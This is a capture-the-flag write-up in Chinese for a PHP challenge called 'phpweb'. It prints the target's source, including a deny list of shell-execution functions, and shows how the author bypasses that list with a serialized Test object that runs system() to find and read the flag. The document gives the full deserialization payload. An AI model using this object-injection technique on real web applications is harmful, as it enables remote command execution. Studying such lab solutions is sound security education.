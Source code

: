 # 朱雀组
## 0x01 phpweb

关键词：反序列化，代码注入

进入界面，开幕雷击

抓包发现变量func和p，猜测func是待执行的函数，p为func的参数

![image-20210227162119517](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/wdb1.png)

更改func为readfile或file_get_contents，p改为index.php尝试获取index.php的源代码

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

源码发现Test类中调用gettime函数，gettime函数中存在函数执行，并且disabled_function中并无unserialize，因而可以通过反序列化进行执行

反序列化代码段：

```
<?php
    class Test {
        var $p = "cat $(find / -name flag*)";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
            echo gettime($this->func, $this->p);
            }
        }
    }
    $a = new Test();
    echo urlencode(serialize($a));
?>
```

最终payload: 

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";}
```

成功获取flag

![image-20210227163130046](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/wdb2.png)



